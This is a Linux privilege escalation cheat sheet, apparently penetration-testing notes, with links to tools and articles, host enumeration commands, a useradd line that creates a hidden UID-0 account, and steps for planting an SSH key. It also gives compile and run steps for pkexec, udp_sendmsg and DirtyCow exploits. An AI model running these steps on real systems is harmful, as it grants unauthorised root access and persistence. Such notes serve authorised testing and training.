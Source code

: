 # Privilege Escalation

## Scripts

* [linuxprivchecker](https://github.com/sleventyeleven/linuxprivchecker)
* [LinEnum](https://github.com/rebootuser/LinEnum)
* [http://pentestmonkey.net/tools/audit/unix-privesc-check](http://pentestmonkey.net/tools/audit/unix-privesc-check)
* linux-exploit-suggester.py
* [https://github.com/lucyoa/kernel-exploits](https://github.com/lucyoa/kernel-exploits)
* [https://github.com/TH3xACE/SUDO\_KILLER](https://github.com/TH3xACE/SUDO\_KILLER)
* [https://github.com/carlospolop/PEASS-ng](https://github.com/carlospolop/PEASS-ng)

## Articles

* [https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)
* [https://github.com/sagishahar/lpeworkshop](https://github.com/sagishahar/lpeworkshop)
* [https://blog.thehackingnomad.com/cheat-sheet-series/privesc-linux](https://blog.thehackingnomad.com/cheat-sheet-series/privesc-linux)
* [https://github.com/C0nd4/OSCP-Priv-Esc](https://github.com/C0nd4/OSCP-Priv-Esc)

## Manual

```
# Current user and hostname
whoami
id
hostname

# Existing users
cat /etc/passwd

# OS version & architecture
cat /etc/issue
cat /etc/*-release
uname -a
arch

# Processes & services
ps aux

# Networking info
ip a
/sbin/route
ss -anp

# Firewall
cat /etc/iptables
# check for iptables-save and iptables-restore commands. See if the dump file has weak permissions

# Scheduled tasks
# verify cron files permissions and content, if possible
ls -lah /etc/cron*
cat /etc/crontab
grep "CRON" /var/log/cron.log

# Installed applications
dpkg -l
which awk perl python ruby gcc cc vi vim nmap find netcat nc wget tftp ftp 2>/dev/null

# Check for readable/writable files & directories
find / -writable -type d 2>/dev/null

# Enumerate unmounted disks
cat /etc/fstab
mount
/bin/lsblk

# List device drivers & kernel modules
lsmod
/sbin/modinfo <name>

# Check for binaries that autoelevate
# search for binaries with SUID bit
find / -perm -u=s -type f 2>/dev/null
find / -user root -perm -002 -type f -not -path "/proc/*"  2>/dev/null

# Check SSH config
cat /etc/ssh/sshd_config

# Check various places for stuff
/var
/opt
/usr/local/src
/usr/src
/home
```

## Create Admin User

```
# mkpasswd -5 'slysandwich' saltsalt
# $1$saltsalt$ZKH1gzt6khxuPmJvab9iy0


/usr/sbin/useradd -s /bin/bash -o -u 0 -g 0 -d /tmp -p \$1\$saltsalt\$ZKH1gzt6khxuPmJvab9iy0 slysandwich
```

## Add SSH Key

Create SSH key:

```
ssh-keygen -t rsa -b 2048 -f ./user.key
```

Add the public key inside the authorized keys (\~/.ssh/authorized\_keys).

## Exploits

### pkexec (CVE-2021-4034)

Source: [https://github.com/berdav/CVE-2021-4034](https://github.com/berdav/CVE-2021-4034)

### **udp\_sendmsg\_32bit** (CVE-2009-2698)

Source: [https://github.com/lucyoa/kernel-exploits/blob/master/udp\_sendmsg\_32bit/udp\_sendmsg\_32bit.c](https://github.com/lucyoa/kernel-exploits/blob/master/udp\_sendmsg\_32bit/udp\_sendmsg\_32bit.c)

Compilation:

```
gcc -o us udp_sendmsg_32bit.c -m32 -Wl,--hash-style=both
```

Usage:

```
chmod +x us && ./us
```

### DirtyCow2

Source: EDB 40839

Compilation:

```
gcc -pthread 40839.c -o dirty -lcrypt
```

Usage:

```
# Backup passwd
cp /etc/passwd /tmp/passwd.bak

# Execute exploit
./dirty
```
